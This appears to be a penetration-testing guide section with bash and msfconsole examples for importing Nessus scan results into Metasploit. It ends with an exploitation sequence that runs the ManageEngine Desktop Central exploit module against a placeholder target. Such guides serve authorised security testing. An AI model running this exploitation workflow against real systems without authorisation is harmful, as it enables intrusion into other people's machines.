## Advanced Usage Examples

### Dynamic Target Scanning

```bash
# Script to scan multiple targets from file
#!/bin/bash
TARGET_FILE="targets.txt"
SCAN_NAME="dynamic_scan_$(date +%Y%m%d_%H%M%S)"

while IFS= read -r target; do
    echo "Scanning target: $target"
    # Nessus API calls or CLI commands would go here
done < "$TARGET_FILE"
```

### Automated Scan and Import Pipeline

```bash
#!/bin/bash
# Example automation script structure
TARGET=$1
SCAN_NAME="auto_scan_$TARGET"

# 1. Create and run Nessus scan (pseudo-code)
# nessus_scan_create --name "$SCAN_NAME" --targets "$TARGET"
# nessus_scan_launch --name "$SCAN_NAME"

# 2. Wait for completion, then export
# nessus_scan_export --name "$SCAN_NAME" --format xml

# 3. Import to Metasploit
msfconsole -x "workspace -a $SCAN_NAME; db_import ${SCAN_NAME}.xml; exit"

echo "Scan completed and imported for target: $TARGET"
```

### Metasploit Exploitation Workflow

```bash
# After importing Nessus results
msfconsole

# Set workspace
workspace nessus_scan

# Identify high-value targets
vulns -S "critical OR high"

# Search for specific exploit
search cve:2021 type:exploit

# Use identified exploit
use exploit/windows/http/manageengine_desktop_central
set RHOSTS <target_ip>
set RPORT 8383
exploit
```
